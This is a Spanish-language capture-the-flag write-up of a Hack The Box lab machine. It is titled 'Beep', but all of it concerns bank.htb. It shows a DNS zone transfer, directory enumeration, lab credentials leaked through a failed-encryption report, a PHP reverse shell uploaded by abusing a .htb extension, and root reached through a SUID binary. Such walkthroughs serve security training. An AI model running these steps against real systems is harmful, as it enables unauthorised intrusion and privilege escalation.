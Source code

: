 # Beep ![Avatar](https://www.hackthebox.eu/storage/avatars/f02481d8d8020005f8d66115b3bfae11_thumb.png)

### Initial Scan

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumeration

#### DNS

La máquina tiene un servidor DNS en marcha, hagamos una consulta de zone transfer sobre bank.htb
```
dig axfr bank.htb @10.10.10.29

; <<>> DiG 9.16.1-Ubuntu <<>> axfr bank.htb @10.10.10.29
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
;; Query time: 52 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: sáb ago 01 13:13:47 CEST 2020
;; XFR size: 6 records (messages 1, bytes 171)
```

#### HTTP

Tenemos varias URL que añadir a /etc/hosts gracias al DNS, tambien es buena idea ir abriendo burpsuite y añadir ambas al target scope
```
chris.bank.htb
bank.htb
```
El dominio bank.htb nos redirige a bank.htb/login.php vamos a enumerar directorios 
```
/assets (Status: 301)
/inc (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
/balance-transfer (Status: 301)  
```
Dentro de uploads no podemos mirar pero dentro de inc si y tenemos varios archivos .php pero nada que podamos ver, vayamos a /balance-transfer y veremos muchos reportes de un servicio de encriptacion con el siguiente formato:
```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```
Todos con una peso aproximado de 580 excepto uno que pesa la mitad que el resto, accedamos a el

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```
Parece que alguien no verifico que la encriptacion funcionara , accedamos usando estas creds, una vez dentro tenenmos acceso a un menu para ver las transas y a un formulario para mandar tickets al soporte, pero en el fuente de la página del soporte hay algo sospechoso

### Exploit
```html
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```
Con esto podremos subir una revshell php cambiando la extensión por la de .htb y evitar cualquier filtro, solo es cuestion de adjuntarla al ticket y mirar nuestro ticket y ya tenemos shell

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ wc -c /home/chris/user.txt
33 /home/chris/user.txt
```

### Privesc

Consigamos una shell funcional antes que nada
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Tras esto busquemos programas con SUID
```
www-data@bank:/$ find / -type f -user root -perm -4000 2> /dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
El primer resultado es cuanto menos peculiar, ejecutemoslo y veamos que ocurre

```
www-data@bank:/$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
Tenemos shell como root, ya solo queda coger la flag 
```
# wc -c /root/root.txt
33 /root/root.txt
```
